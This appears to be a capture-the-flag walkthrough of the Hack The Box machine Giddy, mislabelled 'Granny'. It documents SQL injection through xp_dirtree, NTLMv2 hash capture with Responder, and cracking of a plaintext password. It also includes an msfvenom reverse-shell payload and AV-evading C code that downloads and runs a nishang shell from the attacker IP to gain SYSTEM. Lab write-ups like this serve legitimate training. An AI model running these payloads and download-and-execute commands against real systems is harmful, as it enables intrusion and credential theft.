

# Granny
https://app.hackthebox.com/machines/Giddy

Target IP
10.10.10.104

## Enumeration
---

First lets start with [AutoRecon](https://github.com/Tib3rius/AutoRecon).
```nginx
sudo $(which autorecon) 10.10.10.104
```

### Nmap

On nmap we see the following ports open

```nginx
PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
443/tcp  open  ssl/http      syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_ssl-date: 2022-10-25T22:43:53+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=PowerShellWebAccessTestWebSite
| Issuer: commonName=PowerShellWebAccessTestWebSite
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2018-06-16T21:28:55
| Not valid after:  2018-09-14T21:28:55
| MD5:   78a74af53b09c882a149f977cf8f1182
| SHA-1: 8adc3379878af13f0154406a3eadd34569676a23
| -----BEGIN CERTIFICATE-----
| MIICHTCCAYagAwIBAgIQG2rbVjzfZqJIr005rMK4xTANBgkqhkiG9w0BAQUFADAp
| MScwJQYDVQQDDB5Qb3dlclNoZWxsV2ViQWNjZXNzVGVzdFdlYlNpdGUwHhcNMTgw
| NjE2MjEyODU1WhcNMTgwOTE0MjEyODU1WjApMScwJQYDVQQDDB5Qb3dlclNoZWxs
| V2ViQWNjZXNzVGVzdFdlYlNpdGUwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGB
| ALOvHao3JEpJzzBHR9oCc+934QLPu2vRlC7jZAwySPX6v6fkvzsDr7uD50maLVtW
| 9etn9KVwfmgkYd6YtY+86YCc935s1rppNtNKeVXsG/PM4G+4HdPFf1Ik3Vj6fc1y
| w1nx2PLSNvlC74kkc33MA8y//vxqIckSJiHiVa5ZzdR/AgMBAAGjRjBEMBMGA1Ud
| JQQMMAoGCCsGAQUFBwMBMB0GA1UdDgQWBBS4T3PavA05OLCMaCa6GqgXsjCoozAO
| BgNVHQ8BAf8EBAMCBSAwDQYJKoZIhvcNAQEFBQADgYEAm6FzHooZ+SSLNp9KvPdX
| jjFPpf9Jv4j8Ao9qv1RnbwmTE5SSHhusXDOiAIOsErTVdaNa0VRcduMt+H054kfp
| 1MeoYvKXuXlMLbGe+orEIiVPjC/7cTJIVyfgyhdl5PdtetlZGrspK8h+2QqvxXpF
| im+bXy93yFQ6G9tOrzpBmFY=
|_-----END CERTIFICATE-----
| tls-alpn: 
|   h2
|_  http/1.1
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=Giddy
| Issuer: commonName=Giddy
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-10-24T22:37:36
| Not valid after:  2023-04-25T22:37:36
| MD5:   6fc12004c447a62a50aab8d23c67d2ba
| SHA-1: d532f4c0b830ead0223588999b72265f6d6ef1ad
| -----BEGIN CERTIFICATE-----
| MIICzjCCAbagAwIBAgIQXSJble+/eLBHDh8hLHYp5jANBgkqhkiG9w0BAQsFADAQ
| MQ4wDAYDVQQDEwVHaWRkeTAeFw0yMjEwMjQyMjM3MzZaFw0yMzA0MjUyMjM3MzZa
| MBAxDjAMBgNVBAMTBUdpZGR5MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKC
| AQEA5CPpmOLTv2jahnDuWhSz22Ql1yaKPobMdbhu5u19bILLQIAsk6BThg85rINC
| nDu8J90ZPphKOF1Othf8GlJkV6ScjMltzRbok+Dz8p4UPScxj3E8yDmJqBfqq2Q/
| qUZb4GFbvjwRkUVdYWo1CF4/rQOKCL43JAqMej51DwQaN2nAERixRih6lHDrNDrS
| wyJZAJeJLIEdWLHcTOvHvkXldcMSxnoBUaCh+ysntC4aP++myTfbmpnrUQDq6agJ
| PYlMpgaThGUUkSiTdQhBr4t4w999XqWgbw3dTE0WsXOteu/GYqSjdW34ggDurVCL
| VrC27L2tyVaJSJAhFLeUXtnGFwIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcD
| ATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBAJe8HIzdW0o5uGsOZHDU
| 0hX9QjOG8smQuocrMcRTEwQti+v9QYswu+UJBC41/YDh0U97J+VeOSR+G7FkCFu4
| pzghCtfvBLHeEsoW9QG+qFXjOfOBfEvJ9QPk8yj3ETpOt7St5uHyHJ9ZnyumhKU2
| E7MhYtazkkcWemjW4sZQt9Hkw6TLt+SvLrStditPOYq9ez+l32RLe7OJHykr3GTU
| P8d9V1dDUu6xEAaT1Hw8RoVWQ0TwNx9wwHtmbstpB9V6CdjMkMWVPUvl6fQz7+qO
| 4RE1H/O7BXUyGxzxwuvuVvNDTGFX7lrKtjG/OZFgOEmG8RCEPX8D2TH8GXYMNOUJ
| VS8=
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: GIDDY
|   NetBIOS_Domain_Name: GIDDY
|   NetBIOS_Computer_Name: GIDDY
|   DNS_Domain_Name: Giddy
|   DNS_Computer_Name: Giddy
|   Product_Version: 10.0.14393
|_  System_Time: 2022-10-25T22:43:46+00:00
|_ssl-date: 2022-10-25T22:43:53+00:00; -1s from scanner time.
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2016
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2016 (90%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.93%E=4%D=10/25%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=635866AA%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=108%TS=A)
OPS(O1=M539NW8ST11%O2=M539NW8ST11%O3=M539NW8NNT11%O4=M539NW8ST11%O5=M539NW8ST11%O6=M539ST11)
WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
ECN(R=Y%DF=Y%TG=80%W=2000%O=M539NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)
```

Accessing port 80 and 443 on a browser we see only page with a photo of a dog.


`forexbuster` return to us the following

```nginx
200      GET      362l     2183w    88856c https://10.10.10.104/giddy.jpg
200      GET       32l       55w      700c https://10.10.10.104/
301      GET        2l       10w      158c https://10.10.10.104/aspnet_client => https://10.10.10.104/aspnet_client/
302      GET        3l        8w      160c https://10.10.10.104/Remote/ => /Remote/default.aspx?ReturnUrl=%2fRemote%2f
302      GET        3l        8w      141c https://10.10.10.104/Remote/default.aspx => /Remote/en-US/logon.aspx
302      GET        3l        8w      157c https://10.10.10.104/remote => /Remote/default.aspx?ReturnUrl=%2fremote
301      GET        2l       10w      148c https://10.10.10.104/mvc => https://10.10.10.104/mvc/
302      GET        3l        8w      157c https://10.10.10.104/Remote => /Remote/default.aspx?ReturnUrl=%2fRemote
301      GET        2l       10w      158c https://10.10.10.104/Aspnet_client => https://10.10.10.104/Aspnet_client/
301      GET        2l       10w      158c https://10.10.10.104/aspnet_Client => https://10.10.10.104/aspnet_Client/
```

The `Remote` folder present us a PowerShell Web Remote Admin page. But we don't have any credentials yet.


The `mvc` folder seems to host an ASP.NET application.


On the webapp we have many things to play with, but I started with the `search` option.


If we run an empty search, we get a list of what I believe are all the entries available.


If we try to search a specific item of the list, we get it with no problems.


To test if we can perform SQL Injection on the search, I added a single quote (`'`) at the end of my search to simulate closing a string parameter on a normal SQL query.


And I got the following error.


If we try the same, but this time adding a instruction to comment anything after my input `--`, it returns back without any error.


We don't get any results, but no errors. What means that we may have ways to inject commands here.

On a quick search on the internet, we see many cheatsheets for SQL Injection. As this is a Windows machine, we can start considering that this is a SQL Server until otherwise.

[MSSQL cheatsheet](https://salmonsec.com/cheatsheet/mssql)

One of the quickest ways I found out to test if SQL Inject works and if the machine does not have firewall blocking network communication at the same time, is running `xp_dirtree` on the SQL Injection.

This here may do the work for us. Replace the IP with your one.

```SQL
1'; use master; exec xp_dirtree '\\10.10.14.XX\SHARE';-- 
```

1st we need to start a SMB listener on our Kali.

```nginx
nc -nlvp 445 
listening on [any] 445 ...
```

Then we run the following search.


And I got the following result.

```nginx
nc -nlvp 445 
listening on [any] 445 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.104] 49707
��SMBr▒S�����xPC NETWORK PROGRAM 1.0LANMAN1.0Windows for Workgroups 3.1aLM1.2X002LANMAN2.1NT LM 0.12SMB 2.002SMB 2.???^C
```

We can then confirm that SQL Injection works, it is a SQL Server and it has network communication to SMB.

Now we can user `Responder` to see if we can get a hash.

```nginx
$ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.12]
    Responder IPv6             [dead:beef:2::100a]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-PTO88I33FOA]
    Responder Domain Name      [9J90.LOCAL]
    Responder DCE-RPC Port     [48084]

[+] Listening for events...
```

Then, I ran again the `xp_dirtree` SQL Injection.


And got the following on `Responder`.

```nginx
...
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.10.104
[SMB] NTLMv2-SSP Username : GIDDY\Stacy
[SMB] NTLMv2-SSP Hash     : Stacy::GIDDY:edf1902fc598e764:54475F36C671E7C2B3D0F664B0CB651A:010100000000000080DFAEA592E8D801B276497B718E4623000000000200080039004A003900300001001E00570049004E002D00500054004F003800380049003300330046004F00410004003400570049004E002D00500054004F003800380049003300330046004F0041002E0039004A00390030002E004C004F00430041004C000300140039004A00390030002E004C004F00430041004C000500140039004A00390030002E004C004F00430041004C000700080080DFAEA592E8D80106000400020000000800300030000000000000000000000000300000034AA32441904AB0BC56F8CC94CC04C90D929D7AFB3D0FD8AA94C139304362730A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0031003200000000000000000000000000
[*] Skipping previously captured hash for GIDDY\Stacy
[*] Skipping previously captured hash for GIDDY\Stacy
```

`Responder` logs have a file with captured hash.
```nginx
$ ls -lha /usr/share/responder/logs 
total 92K
drwxr-xr-x 2 root root 4.0K Oct 25 16:58 .
drwxr-xr-x 9 root root 4.0K Oct 25 16:58 ..
-rw-r--r-- 1 root root    0 Aug 29 17:50 Analyzer-Session.log
-rw-r--r-- 1 root root  66K Oct 25 16:55 Config-Responder.log
-rw-r--r-- 1 root root  160 Oct 25 16:58 Poisoners-Session.log
-rw-r--r-- 1 root root 3.0K Oct 25 16:58 Responder-Session.log
-rw-r--r-- 1 root root 2.8K Oct 25 16:58 SMB-NTLMv2-SSP-10.10.10.104.txt
```

```nginx
$ cat /usr/share/responder/logs/SMB-NTLMv2-SSP-10.10.10.104.txt 
Stacy::GIDDY:edf1902fc598e764:54475F36C671E7C2B3D0F664B0CB651A:010100000000000080DFAEA592E8D801B276497B718E4623000000000200080039004A003900300001001E00570049004E002D00500054004F003800380049003300330046004F00410004003400570049004E002D00500054004F003800380049003300330046004F0041002E0039004A00390030002E004C004F00430041004C000300140039004A00390030002E004C004F00430041004C000500140039004A00390030002E004C004F00430041004C000700080080DFAEA592E8D80106000400020000000800300030000000000000000000000000300000034AA32441904AB0BC56F8CC94CC04C90D929D7AFB3D0FD8AA94C139304362730A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0031003200000000000000000000000000
```

Now, lets run `john` to try to crack the hash.

```nginx
$ john --wordlist=/usr/share/wordlists/rockyou.txt /usr/share/responder/logs/SMB-NTLMv2-SSP-10.10.10.104.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xNnWo6272k7x     (Stacy)  
3g 0:00:00:04 DONE (2022-10-25 17:02) 0.7500g/s 673792p/s 2021Kc/s 2021KC/s xamtrex..wyke*ke
Warning: passwords printed above might not be all those cracked
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

Perfect, now we have one credential

| Username | Password |
| --- | --- |
| Stacy | xNnWo6272k7x |


Back to the `Remote` webpage, we try the credentials and it fails.


However, if we try to add the name of the computer before the user name, it works.




Or we can access PowerShell using `Evil-WinRM`.

```nginx
$ evil-winrm -i 10.10.10.104 -u Stacy -p xNnWo6272k7x    

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Stacy\Documents>
```

## Priv Escalation
---

Now that we have a shell on the machine, lets dig a bit to see what we can do here.

Listing `Documents` folder gives us an idea on what could be running on the machine.

```PowerShell
PS C:\Users\Stacy\Documents> 
dir

    Directory: C:\Users\Stacy\Documents
Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------  ----
-a----        6/17/2018   9:36 AM              6 unifivideo
```
Reading the `unifivideo` file shows the word `stop`.

```PowerShell
cat .\unifivideo

stop
```

Investigating PowerShell command history, we get more tips.

```PowerShell
(Get-PSReadLineOption).HistorySavePath

C:\Users\Stacy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ServerRemoteHost_history.txt
```

```PowerShell
dir C:\Users\Stacy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\

    Directory: C:\Users\Stacy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/17/2018   9:48 AM            207 ConsoleHost_history.txt
```


```PowerShell
cat C:\Users\Stacy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

net stop unifivideoservice
$ExecutionContext.SessionState.LanguageMode
Stop-Service -Name Unifivideoservice -Force
Get-Service -Name Unifivideoservice
whoami
Get-Service -ServiceName UniFiVideoService
```

On the history we see commands related to a service called `unifivideoservice`.


If we try to see all the servers on the target, we receive access denied.


```PowerShell
get-service

Cannot open Service Control Manager on computer '.'. This operation might require other privileges.
    + CategoryInfo          : NotSpecified: (:) [Get-Service], InvalidOperationException 
    + FullyQualifiedErrorId : System.InvalidOperationException,Microsoft.PowerShell.Commands.GetServiceCommand 
```

```PowerShell
sc.exe query

[SC] OpenSCManager FAILED 5:
Access is denied.
```

However, listing the services registry with `reg.exe QUERY`, we see a service called `UniFiVideoService`.

```PowerShell
reg.exe QUERY HKLM\SYSTEM\CurrentControlSet\Services
...
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\UmPass
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\UmRdpService
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\UniFiVideoService
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\UnistoreSvc
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\upnphost
...
```

```PowerShell
reg.exe QUERY HKLM\SYSTEM\CurrentControlSet\Services\UniFiVideoService

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\UniFiVideoService

    Type    REG_DWORD    0x10
    Start    REG_DWORD    0x2
    ErrorControl    REG_DWORD    0x1
    ImagePath    REG_EXPAND_SZ    C:\ProgramData\unifi-video\avService.exe //RS//UniFiVideoService
    DisplayName    REG_SZ    Ubiquiti UniFi Video
    DependOnService    REG_MULTI_SZ    Tcpip\0Afd
    ObjectName    REG_SZ    LocalSystem
    Description    REG_SZ    Ubiquiti UniFi Video Service
```

If we try to get details for that specific service, we get the results. 

```PowerShell
Get-Service UniFiVideoService

Status   Name               DisplayName
------   ----               -----------
Running  UniFiVideoService  Ubiquiti UniFi Video
```

Now that we know details about this service, we can search for any known vulnerability.

```nginx
$ searchsploit unifi video               
----------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                           |  Path
----------------------------------------------------------------------------------------- ---------------------------------
Ubiquiti Networks UniFi Video Default - 'crossdomain.xml' Security Bypass                | php/webapps/39268.java
Ubiquiti UniFi Video 3.7.3 - Local Privilege Escalation                                  | windows/local/43390.txt
----------------------------------------------------------------------------------------- ---------------------------------
```

There is a Windows Local Privilege Escalation one that may help up.

Lets make a copy of the exploit file and see its details.

```nginx
$ searchsploit -m windows/local/43390.txt
  Exploit: Ubiquiti UniFi Video 3.7.3 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/43390
     Path: /usr/share/exploitdb/exploits/windows/local/43390.txt
File Type: Unicode text, UTF-8 text
```

Inspecting the file we see the following details.
```
5. VULNERABILITY DETAILS
========================
Ubiquiti UniFi Video for Windows is installed to "C:\ProgramData\unifi-video\"
by default and is also shipped with a service called "Ubiquiti UniFi Video". Its
executable "avService.exe" is placed in the same directory and also runs under
the NT AUTHORITY/SYSTEM account.

However the default permissions on the "C:\ProgramData\unifi-video" folder are
inherited from "C:\ProgramData" and are not explicitly overridden, which allows
all users, even unprivileged ones, to append and write files to the application
directory:

c:\ProgramData>icacls unifi-video
unifi-video NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
BUILTIN\Administrators:(I)(OI)(CI)(F)
CREATOR OWNER:(I)(OI)(CI)(IO)(F)
BUILTIN\Users:(I)(OI)(CI)(RX)
BUILTIN\Users:(I)(CI)(WD,AD,WEA,WA)

Upon start and stop of the service, it tries to load and execute the file at
"C:\ProgramData\unifi-video\taskkill.exe". However this file does not exist in
the application directory by default at all.

By copying an arbitrary "taskkill.exe" to "C:\ProgramData\unifi-video\" as an
unprivileged user, it is therefore possible to escalate privileges and execute
arbitrary code as NT AUTHORITY/SYSTEM.
```

Ok, now we know that if we drop a files called `taskkill.exe` on the software directory, it will be called during the stop/start of the service.


Let's try to create a payload with `msfvenom` and drop the file on the specific directory.

```nginx
$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp _tcp LHOST=10.10.14.12 LPORT=4444 -f exe -o taskkill.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: taskkill.exe
```

Start a SMB server.

```nginx
$ impacket-smbserver share $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

And try to copy the file.

```PowerShell
xcopy \\10.10.14.12\share\taskkill.exe C:\ProgramData\unifi-video\

\\10.10.14.12\share\taskkill.exe
xcopy : File creation error - Operation did not complete successfully because the file contains a virus or potentially unwanted software.
    + CategoryInfo          : NotSpecified: (File creation e...anted software.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
```

The target has its antivirus running and it caught our payload.

We need to find a way to bypass the antivirus.

Searching on the internet I found a C code that calls PowerShell to download one of the `nishang` shell scripts and invoke it direct from memory.

```C
#include "stdlib.h"
int main()
{
    system("powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.12/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.12 -Port 4444");
    return 0;
}
```

To compile the code we can use the following.

```nginx
$ i686-w64-mingw32-gcc taskkill.c -o taskkill.exe
```

Ok, now we need to move it to the service folder on the target.

```PowerShell
*Evil-WinRM* PS C:\Users\Stacy\Documents> xcopy \\10.10.14.12\share\taskkill.exe C:\ProgramData\unifi-video\
\\10.10.14.12\share\taskkill.exe
1 File(s) copied
*Evil-WinRM* PS C:\Users\Stacy\Documents> dir C:\ProgramData\unifi-video\

    Directory: C:\ProgramData\unifi-video

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/16/2018   9:54 PM                bin
d-----        6/16/2018   9:55 PM                conf
d-----        6/16/2018  10:56 PM                data
d-----        6/16/2018   9:54 PM                email
d-----        6/16/2018   9:54 PM                fw
d-----        6/16/2018   9:54 PM                lib
d-----       10/26/2022   2:11 PM                logs
d-----        6/16/2018   9:55 PM                webapps
d-----        6/16/2018   9:55 PM                work
-a----        7/26/2017   6:10 PM         219136 avService.exe
-a----        6/17/2018  11:23 AM          31685 hs_err_pid1992.log
-a----        8/16/2018   7:48 PM         270597 hs_err_pid2036.mdmp
-a----       10/26/2022   2:26 PM         100470 taskkill.exe
-a----        6/16/2018   9:54 PM            780 Ubiquiti UniFi Video.lnk
-a----        7/26/2017   6:10 PM          48640 UniFiVideo.exe
-a----        7/26/2017   6:10 PM          32038 UniFiVideo.ico
-a----        6/16/2018   9:54 PM          89050 Uninstall.exe
```

Next, we need to start a webserver to host the `nishang` shell files.

```nginx
$ cd /opt/nishang/Shells/          
$ sudo python -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

We will also need the listner set, to get the connection when the service stop/start.


```nginx
$ nc -nlvp 4444
listening on [any] 4444 ...
```

We are ready! Now, lets stop the service and see if it works.

```PowerShell
*Evil-WinRM* PS C:\Users\Stacy\Documents> Stop-Service -Name Unifivideoservice -Force

Warning: Waiting for service 'Ubiquiti UniFi Video (Unifivideoservice)' to stop...
Warning: Waiting for service 'Ubiquiti UniFi Video (Unifivideoservice)' to stop...
Warning: Waiting for service 'Ubiquiti UniFi Video (Unifivideoservice)' to stop...
Warning: Waiting for service 'Ubiquiti UniFi Video (Unifivideoservice)' to stop...
Warning: Waiting for service 'Ubiquiti UniFi Video (Unifivideoservice)' to stop...
Warning: Waiting for service 'Ubiquiti UniFi Video (Unifivideoservice)' to stop...
...
```

Soon after a few seconds of the service stop command, we see our webserver receiving a call.

```nginx
...
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.104 - - [26/Oct/2022 11:38:20] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

And after that we get an elevated shell.

```nginx
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.104] 49821
Windows PowerShell running as user GIDDY$ on GIDDY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\ProgramData\unifi-video>whoami
nt authority\system
```